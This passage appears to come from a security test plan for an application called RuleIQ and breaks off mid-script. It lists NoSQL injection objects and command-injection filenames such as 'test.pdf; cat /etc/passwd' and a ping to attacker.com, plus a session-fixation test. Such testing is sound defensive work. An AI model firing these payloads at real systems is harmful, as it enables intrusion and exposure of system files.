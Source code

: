 ```javascript
// MongoDB injection attempts
const injectionTests = [
    // Operator injection
    { username: { $ne: null }, password: { $ne: null } },
    
    // JavaScript injection
    { $where: "this.password == 'test'" },
    
    // Regex injection
    { username: { $regex: ".*" }, password: { $regex: ".*" } },
    
    // Array injection
    { roles: { $in: ["admin", "superuser"] } }
];
```

### 3.3 Command Injection

```python
# Test for OS command injection
command_payloads = [
    "test.pdf; cat /etc/passwd",
    "test.pdf | ls -la",
    "test.pdf`id`",
    "test.pdf$(whoami)",
    "test.pdf&&net user",
    "test.pdf||ping -c 10 attacker.com"
]

for payload in command_payloads:
    response = requests.post(
        "https://api.ruleiq.com/documents/convert",
        json={"filename": payload},
        headers=auth_headers
    )
    
    # Check response time for ping attacks
    # Check response content for command output
```

---

## 4. Session Management Attacks

### 4.1 Session Fixation Attack

```python
def test_session_fixation():
    """Test if application accepts externally set session IDs"""
    
    # Step 1: Get a session ID as attacker
    attacker_session = requests.get("https://app.ruleiq.com").cookies
    
    # Step 2: Force victim to use this session
    victim_response = requests.post(
        "https://app.ruleiq.com/login",
        data={"email": "victim@example.com", "password": "password"},
        cookies=attacker_session
    )
    
    # Step 3: Check if attacker can hijack authenticated session
    hijack_attempt = requests.get(
        "https://app.ruleiq.com/dashboard",
        cookies=attacker_session
```